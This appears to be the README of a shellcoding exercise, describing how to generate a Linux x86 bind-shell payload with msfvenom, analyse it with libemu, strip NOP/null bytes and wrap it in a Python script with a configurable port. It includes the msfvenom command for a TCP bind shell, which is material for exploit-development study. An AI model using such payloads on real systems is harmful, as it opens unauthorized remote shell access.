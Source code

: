 # Exercise 1

## Usage

```
python3 wrapper.py $PORT
```

![Screenshot](images/wrapper/5.png)

If the port causes problems, a warning message appears:
![Screenshot](images/wrapper/6.png)




## Steps

Get "sctest" result (also using *libemu.sh* script in **scripts/** folder):
```
msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888 | ./sctest -vvv -Ss 10000 -G bindshell.dot

-------------------------------------

sh libemu.sh "msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888" bindshell | tee libemu_res/libemu_res.txt
```

Get hexadecimal values for every syscall (also using *syscallhex.sh* script in **scripts/** folder):
```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | listen

printf "%x\n" 363

-------------------------------------

sh syscallhex.sh listen
```


## Deleting NOPs

[socket] generates NOPs:

![Screenshot](images/1.png)

It is possible to solve it using the stack:

![Screenshot](images/2.png)

[accept_res] generates NOPs:

![Screenshot](images/3.png)

It is possible to solve it using the stack:

![Screenshot](images/4.png)

There is not NOPs anymore:

![Screenshot](images/5.png)



## Creating Python wrapper 

Get the shellcode:

![Screenshot](images/wrapper/1.png)

Change the "\" to "\\":

![Screenshot](images/wrapper/2.png)

Detect where the port (8888 or 0x22b8 in hexadecimal) is being used:

![Screenshot](images/wrapper/3.png)

Substitute that value in the original shellcode for a variable:

![Screenshot](images/wrapper/4.png)


## Useful links
```
http://man7.org/linux/man-pages/man2/socket.2.html
https://stackoverflow.com/questions/19850082/using-nasm-and-tcp-sockets
http://man7.org/linux/man-pages/man2/socket.2.html
https://rosettacode.org/wiki/Sockets
http://www6.uniovi.es/cscene/CS5/CS5-05.html
https://stackoverflow.com/questions/48773917/why-creating-a-remote-shell-using-execve-doesnt-overwrite-file-descriptors-and
```
